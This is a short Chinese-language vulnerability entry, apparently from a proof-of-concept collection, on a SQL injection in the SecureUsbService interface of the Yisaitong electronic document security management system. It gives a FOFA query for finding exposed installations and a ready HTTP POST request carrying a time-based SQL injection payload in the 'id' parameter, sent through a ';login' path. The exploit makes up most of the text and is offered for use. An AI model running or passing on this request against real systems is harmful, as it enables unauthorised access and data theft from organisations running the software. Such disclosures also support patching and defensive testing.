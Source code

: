 # 亿赛通电子文档安全管理系统SecureUsbService存在SQL注入漏洞

亿某通电子文档安全管理系统` SecureUsbService`接口的`id`参数处对传入的数据没有预编译和充足的校验，导致该接口存在SQL注入漏洞，恶意攻击者可能通过该漏洞获取服务器信息或者直接获取服务器权限

## fofa

```yaml
app="亿赛通-电子文档安全管理系统"
```

## poc

```javascript
POST /CDGServer3/device/SecureUsbService;login HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded

command=DelSecureUsb&id=a';WAITFOR+DELAY+'0:0:5'--
```

